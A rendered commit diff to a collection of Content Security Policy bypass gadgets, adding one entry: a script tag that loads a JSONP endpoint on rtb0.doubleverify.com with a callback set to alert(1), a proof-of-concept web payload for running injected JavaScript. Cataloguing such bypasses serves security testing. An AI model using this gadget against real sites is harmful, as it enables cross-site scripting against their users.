

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; long unchanged cells end in …; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Added rtb0.doubleverify.com

```diff
--- a/data.tsv
+++ b/data.tsv
+row 171: rtb0.doubleverify.com | <script src="https://rtb0.doubleverify.com/verify.js?jsCallback=alert(1)"></script>
```
